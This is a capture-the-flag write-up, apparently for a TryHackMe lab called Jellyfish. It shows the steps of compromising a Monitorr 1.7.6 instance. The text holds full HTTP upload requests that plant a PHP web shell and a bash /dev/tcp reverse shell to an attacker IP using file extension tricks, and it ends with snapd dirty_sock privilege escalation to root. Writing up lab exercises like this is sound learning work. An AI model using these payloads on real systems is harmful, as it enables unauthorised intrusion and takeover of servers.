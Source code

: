 # Jellyfish

## Reconn


robyns-petshop.thm
monitorr.robyns-petshop.thm
beta.robyns-petshop.thm
dev.robyns-petshop.thm


Looking for searchsploit Monitor 1.7.6 found exploit
https://www.exploit-db.com/exploits/48980

## Payloads
```
POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Cookie: isHuman=1; PHPSESSID=98ke6a48lckc25sb87jmru2el7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: https://monitorr.robyns-petshop.thm
Connection: close
Referer: https://monitorr.robyns-petshop.thm
Content-Length: 274

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name=fileToUpload; filename=she_ll.gif.phtml
Content-Type: image/gif

GIF89a213213123<?php system($_GET["c"]);?>
-----------------------------31046105003900160576454225745--




POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Cookie: isHuman=1; PHPSESSID=98ke6a48lckc25sb87jmru2el7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: https://monitorr.robyns-petshop.thm
Connection: close
Referer: https://monitorr.robyns-petshop.thm
Content-Length: 274

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name=fileToUpload; filename=she_ll5.gif.phtml
Content-Type: image/gif

GIF89a213213123<?php
{php-reverse-shell.php pentestmonkey}
?> 
-----------------------------31046105003900160576454225745--



view-source:https://monitorr.robyns-petshop.thm/assets/data/usrimg/she_ll5.gif.phtml?c=ls%20-al%20/opt/ssh-honeypot

cat /opt/ssh-honeypot/README.md
```

# FINAL PAYLOAD 
```
POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Cookie: isHuman=1; PHPSESSID=98ke6a48lckc25sb87jmru2el7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: https://monitorr.robyns-petshop.thm
Connection: close
Referer: https://monitorr.robyns-petshop.thm
Content-Length: 320

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name=fileToUpload; filename=reverse.gif.pHp
Content-Type: image/gif

GIF89a213213123


<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.9.124/443 0>&1'");?> 
-----------------------------31046105003900160576454225745--

```
# First Access

after running Linpeas.sh in SGID section found snapd with suid
check verson snapd
: snapd --version
2.32.5

: searchsploit snapd 2.32.5
found CVE 2019-7304 
dirty_sock.py

upload exploit on target

running dirty_sock
******
user:dirty_sock
pass:dirty_sock
******

: su dirty_sock
: sudo su

root#>
